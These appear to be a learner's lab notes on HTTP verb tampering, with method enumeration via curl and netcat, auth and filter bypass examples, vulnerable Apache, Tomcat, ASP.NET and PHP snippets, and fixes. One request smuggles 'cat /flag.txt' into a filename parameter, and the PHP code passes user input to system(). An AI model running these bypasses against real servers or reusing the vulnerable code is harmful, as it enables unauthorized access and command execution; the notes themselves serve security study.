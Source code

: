### Content
* [[#Overview]]
* [[#HTTP Verbs]]
* [[#Check allowed methods by a server]]
* [[#Scenarios]]
	* [[#Bypassing Basic Authentication]]
	* [[#Bypassing Security Filters]]
* [[#Verb Tampering Prevention]]
	* [[#Insecure Configuration]]
	* [[#Insecure Coding]]
---
## Overview
[HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)
- Cause: HTTP Verb Tampering occurs when an application has inconsistent or incomplete access control checks across different HTTP methods. For example, a resource may have proper authorization checks for `POST` requests but not for `PUT` or `DELETE` requests.
- Exploitation: Attackers send requests with unexpected or modified HTTP verbs (e.g., using `PUT` or `DELETE` instead of `GET` or `POST`) to interact with resources in unintended ways. For example, an attacker might change a `GET` request to `DELETE` to attempt deleting data or bypass access restrictions.
- Impact:
    - Unauthorized Data Modification
    - Privilege Escalation
    - Information Disclosure
- Prevention:
    - Consistent Access Control: Ensure that authorization checks are applied uniformly across all HTTP methods for each resource.
    - Allow Only Required Verbs: Restrict endpoints to allow only the HTTP verbs necessary for their functionality.
    - Server-Side Validation: Validate requests server-side based on user roles and permissions, regardless of HTTP verb.
---
## HTTP Verbs

| Method                                                                         | Description                                                                                                |
| ------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------- |
| [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET)         | Requests a representation of the specified resource                                                        |
| [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)       | Asks for a response identical to a `GET` request, but without a response body                              |
| [`OPTIONS`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) | Shows different options accepted by a web server, like accepted HTTP verbs                                 |
| [`TRACE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE)     | Performs a message loop-back test along the path to the target resource                                    |
| [`PUT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PUT)         | Writes the request payload to the specified location                                                       |
| [`DELETE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/DELETE)   | Deletes the specified resource                                                                             |
| [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST)       | Submits an entity to the specified resource, often causing a change in state or side effects on the server |
| [`PATCH`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PATCH)     | Applies partial modifications to a resource                                                                |
| [`CONNECT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/CONNECT) | Establishes a tunnel to the server identified by the target resource                                       |

---
## Check allowed methods by a server
``` bash
k1ng0a21r@htb[/htb]$ curl -i -X OPTIONS http://SERVER_IP:PORT/

HTTP/1.1 200 OK
Date: 
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET
Content-Length: 0
Content-Type: httpd/unix-directory
```
Script for automation:
``` bash
#!/bin/bash
for webservmethod in GET POST PUT TRACE CONNECT OPTIONS PROPFIND;
do
printf "$webservmethod " ;
printf "$webservmethod / HTTP/1.1\nHost: $1\n\n" | nc -q 1 $1 80 | grep "HTTP/1.1"
done
```
Usage:
``` bash
k1ng0a21r@htb[/htb]$ ./script 123.1.3.4
GET HTTP/1.1 200 OK
POST HTTP/1.1 200 OK
PUT HTTP/1.1 200 OK
TRACE HTTP/1.1 200 OK
CONNECT HTTP/1.1 400 Bad Request
OPTIONS HTTP/1.1 200 OK
PROPFIND HTTP/1.1 200 OK
```

---
## Scenarios
### Bypassing Basic Authentication
* `401 Unauthorized`
``` HTTP
GET /admin/reset.php? HTTP/1.1
```
* `Accepted`
``` HTTP
HEAD /admin/reset.php? HTTP/1.1
```
### Bypassing Security Filters
* Before HTTP verb tampering
``` HTTP
GET /index.php?filename=file%3b+cat+/flag.txt+ HTTP/1.1
....[SNIP]
```
Results on response:
``` HTML
h4><a href='test'>test</a></h4></li></ul>Malicious Request Denied!</ul>
```
* After HTTP verb tampering
``` HTTP
POST /index.php HTTP/1.1
...[SNIP]
filename=file%3b+cat+/flag.txt+
```
Result on response:
``` HTML
<h4><a href='test'>test</a></h4></li></ul>HTB{b3_v3rb_c0n51573n7}</ul>
```
---
## Verb Tampering Prevention
### Insecure Configuration
* `Apache` Vulnerable configurations.
 Located in the site configuration file (e.g. `000-default.conf`), or in a `.htaccess`.
``` XML
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd
    <Limit GET>
        Require valid-user
    </Limit>
</Directory>
```
the `Require valid-user` setting will only apply to `GET` requests, leaving the page accessible through other methods.
* `Tomcat` Vulnerable configurations.
  Located in the `web.xml` file for a certain Java web application.
``` XML
<security-constraint>
    <web-resource-collection>
        <url-pattern>/admin/*</url-pattern>
        <http-method>GET</http-method>
    </web-resource-collection>
    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```
* `ASP.NET` Vulnerable configurations.
  Located in the `web.config` file of a web application.
``` XML
<system.web>
    <authorization>
        <allow verbs="GET" roles="admin">
            <deny verbs="GET" users="*">
        </deny>
        </allow>
    </authorization>
</system.web>
```
* If we want to specify a single method, we can use safe keywords:
	* `LimitExcept` in Apache 
	* `http-method-omission` in Tomcat
	* `add`/`remove` in ASP.NET
* We should generally `consider disabling/denying all HEAD requests` unless specifically required by the web application.
### Insecure Coding
Infected code
``` PHP
if (isset($_REQUEST['filename'])) {
    if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
        system("touch " . $_REQUEST['filename']);
    } else {
        echo "Malicious Request Denied!";
    }
}
```
* The code checks `$_REQUEST['filename']` but validates `$_POST['filename']`. An attacker can bypass the validation by sending the malicious input through `$_GET`.
* The fix would be to consistently use only `$_POST` for both validation and usage
---